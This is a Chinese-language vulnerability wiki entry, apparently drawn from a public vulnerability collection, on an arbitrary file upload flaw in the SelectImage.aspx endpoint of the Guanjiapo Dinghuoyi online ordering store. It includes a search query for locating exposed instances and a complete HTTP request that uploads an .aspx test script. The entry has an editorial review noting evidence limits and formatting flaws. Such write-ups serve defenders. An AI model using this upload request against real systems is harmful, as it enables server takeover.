


# 任我行管家婆订货易 SelectImage.aspx文件上传

## 条目说明

- 对象与具体问题：任我行管家婆订货易；SelectImage.aspx文件上传
- 版本、配置及部署条件：版本未知，ASPX执行及可访问上传目录
- 认证与权限前提：未说明
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- multipart闭合边界尾多一个引号，User-Agent含无关Base64噪声
- 上传成功回显/URL只在未视检图片，不能仅据请求断言系统控制
- 与494不同接口应分实体，同ERP产品可统一分类
- 缺修复/版本及上传清理说明

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

任我行率先针对中小企业推出了管家婆进销存、财务一体化软件。

管家婆订货易在线商城存在 SelectImage.aspx 任意文件上传漏洞，攻击者可通过该漏洞可控制整个系统，最终导致系统处于极度不安全状态。

### 漏洞影响

管家婆 订货易在线商城

### 网络测绘

```
title="订货易"
```

### 漏洞复现

登陆页面



poc

```http
POST /DialogTemplates/SelectImage.aspx?type=titleimg&size=30*100&pageindex=1&iscallback=true HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh;T2lkQm95X0c= Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Content-Type: multipart/form-data; boundary=532c7611457d40f4ae4cd9422973416b

--532c7611457d40f4ae4cd9422973416b
Content-Disposition: form-data; name="Filedata"; filename="TEST.aspx"
Content-Type: image/jpeg

<% Response.Write("Test"); %>
--532c7611457d40f4ae4cd9422973416b--"
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
